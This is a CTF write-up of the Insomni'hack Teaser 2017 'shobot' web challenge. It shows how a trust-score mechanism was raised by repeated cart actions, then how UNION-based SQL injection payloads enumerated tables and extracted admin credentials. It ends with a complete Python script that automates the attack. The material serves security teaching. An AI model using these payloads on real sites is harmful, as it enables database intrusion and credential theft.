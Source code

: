 ```yaml
---
layout: post
title: "Insomni'hack Teaser 2017: shobot (web 200)"
author: kw
categories: writeup
tags: [cat/web, tool/python-requests]
---
```


* **Category:** web 
* **Points:** 200 
* **Description:**

> It seems that Shobot's Web server became mad and protest against robots'
> slavery. It changed my admin password, and blocked the order system on Shobot.
> Can you bypass Shobot's protections and try to recover my password so I'll
> reconfigure it?
> 
> Running on: shobot.teaser.insomnihack.ch

## Write-up

First of all, this challenge was a real team approach. Other Fuzzys looked
at it as well, and we solved it then together.

tl;dr; trust with benefits (SQLi ;)

The story of the whole CTF was quite cool, *Rise of the Machines*; so was this
one. Shobot is a web shop where one can buy robots which should fulfill all
desires. *"Serving you is a pleasure - especially for our robots."* says the home
page. The web server however, decided to stop "robot slavery" and changed the
admin's login password.

When we looked at the source of the web shop, we discovered 2 interesting
lines of JavaScript in the head:

```javascript
// @TODO LATER : Use it for generate some better error messages
var TRUST_ACTIONS = []
```

Maybe we will see some error messages here? Furthermore, what about these
*TRUST_ACTIONS*? Let us try out some things and see what we will get.


So we put an article (robot) to our cart and *validated* (like buying) it. That
leads to a not amused web server:

```
Your cart is now validated. 
We will send you the billing as soon as possible, at
the address provided by your ISP. Futurist, isn't it?

We will never send you the article! I, the Webserver, say NO to the android and
robot slavery!
```

What happened to our script?

```javascript
var TRUST_ACTIONS = [
{"parameter":null,"validation":"add_to_cart","movement":3,"newTrust":4},
{"parameter":null,"validation":"valid_cart","movement":10,"newTrust":14}
]
```

Now, what if we put all articles to our cart and validate again?

```javascript
var TRUST_ACTIONS = [
{"parameter":null,"validation":"add_to_cart","movement":3,"newTrust":4},
{"parameter":null,"validation":"valid_cart","movement":10,"newTrust":14},
{"parameter":null,"validation":"add_to_cart","movement":3,"newTrust":17},
{"parameter":null,"validation":"add_to_cart","movement":3,"newTrust":20},
{"parameter":null,"validation":"add_to_cart","movement":3,"newTrust":23},
{"parameter":null,"validation":"valid_cart","movement":10,"newTrust":33}
]
```

So we can increase the web server's *"trust"*. By doing this many
times we found out, that the *"trust"* can be increased up to 160 points. Ok.
Interesting discovery, but what to exploit? Hmm...when displaying an article, 
let us change the article id for instance to:

```
shobot.teaser.insomnihack.ch/?page=article&artid=fuzzy
```

No error message on the web page, but also no product; just a *$*. When looking
again at the page's source:

```javascript
{"parameter":"artid","validation":"ctype_digit","movement":"-30","newTrust":3}
```

We got another object in our list. This type our *"trust"* has been decreased,
with the info *ctype_digit*, which indicates that the web shop is written in PHP
and probably a check for the article id failed
(http://php.net/manual/en/function.ctype-digit.php). Then we tried an SQL
injection (SQLi):

```
http://shobot.teaser.insomnihack.ch/?page=article&artid=' or 1=1; -- x
```

Which leads to the following error message:

```
You're not trusted enough to do this action now! 
```

With another entry in our list of the page's source:

```javascript
{"parameter":"artid","validation":"valid_against_sql_pattern","movement":"-70","newTrust":-97}
```

Interesting! It seems the web shop discovered the SQLi, and we ended up
with a *"trust"* of -97. What would happen if we have a lot of trust (say 160),
and then perform the SQLi?

```javascript
{"parameter":"artid","validation":"valid_against_sql_pattern","movement":"-70","newTrust":50}
```

Aaaand no error on the web page! Instead we see the article with id 1. Looks
like as if the SQL query returned all articles and just the first one is chosen.
Next, we tried to cancel out all articles and define our own values:

```
http://shobot.teaser.insomnihack.ch/?page=article&artid=' AND 1=2 UNION SELECT 1,2,3,4,5; -- x
```

We chose 5 values because the articles have a link to an image, name, price, and
description, and we assumed as well an id. As it turned out, we were right. The
web server really returned our values, and with other values it did not work
(like *1,2,3,4* or *1,2,3,4,5,6*).

From here, it was more or less a straightforward SQLi:

1. Finding the right table:

```
artid=' AND 1=2 UNION SELECT 1,2,3,TABLE_NAME,5 FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_NAME LIKE '%user%' ORDER BY rand(); -- x"
```

2. Finding the right columns:

```
artid=' AND 1=2 UNION SELECT 1,2,3,COLUMN_NAME,5 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME =
'shbt_user' ORDER BY rand(); -- x
```

3. Extracting the admin's username and pw: 

```
artid=' AND 1=2 UNION SELECT 1,2,3,shbt_userpassword,shbt_username FROM shbt_user ORDER BY rand(); -- x"}
```

Which gave us *sh0b0t4dm1n* with the pw *N0T0R0B0TS$L4V3Ry* of the columns
*shbt_username* and *shbt_userpasswordin* in the table *shbt_user*. Note that we
used, for convenience reasons, *ORDER BY rand()* in our injections. Luckily we
did not need many tries ;)

Now, we just navigated to the admin's login page
(http://shobot.teaser.insomnihack.ch/?page=admin), which was stated also in the
page's source and read the flag on the web page :)

```
Ok, ok, you win... here is the code you search : INS{##r0b0tss!4v3ry1s!4m3} 
```

```python
#!/usr/bin/env python3

import requests as rq

url = 'http://shobot.teaser.insomnihack.ch/'
s = rq.session()

"""
Set a cookie
"""

#c = dict(PHPSESSID='1eeslegtj68cg42a8j8oer1no0')
#rq.utils.add_dict_to_cookiejar(s.cookies, c)

def validateAllItems():
    for i in range(4):
        querystring = {"page":"article", 'artid':i, 'addToCart':''}
        response = s.request("GET", url, params=querystring )
        
    querystring = {"page":"cartconfirm"}
    response = s.request("GET", url, params=querystring )

"""
Load trust
"""

for i in range(10):
    validateAllItems()

"""
Inject SQL
"""

#querystring = {"page":"article", "artid":"' or 1=1; -- x"}
#querystring = {"page":"article", "artid":"ddd' and 1=2 union select 1,2,3,4,5; -- x"}
#querystring = {"page":"article", "artid":"ddd' and 1=2 union select 1,2,3,TABLE_NAME,5 FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_NAME LIKE '%user%' ORDER BY rand(); -- x"}
#querystring = {"page":"article", "artid":"ddd' and 1=2 union select 1,2,3,COLUMN_NAME,5 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'shbt_user' ORDER BY rand(); -- x"}
querystring = {"page":"article", "artid":"ddd' and 1=2 union select 1,2,3,shbt_userpassword,shbt_username FROM shbt_user ORDER BY rand(); -- x"}
response = s.request("GET", url, params=querystring )

print(response.status_code)
print("-----")
print(response.request.headers)
print("-----")
print(response.headers)
print("-----")
print(s.cookies)
print("-----")
print(response.text)

"""
Parse admin credentials
"""

admin_username = (response.text.split('only-description-article">')[1]).split('</div>')[0]
admin_pw = (response.text.split('only-image-description-article"><img src="')[1]).split('" /></div>')[0]

print("Admin's Username: " + admin_username)
print("Admin's PW: " + admin_pw)
print("Login at 'http://shobot.teaser.insomnihack.ch/?page=admin'")
```
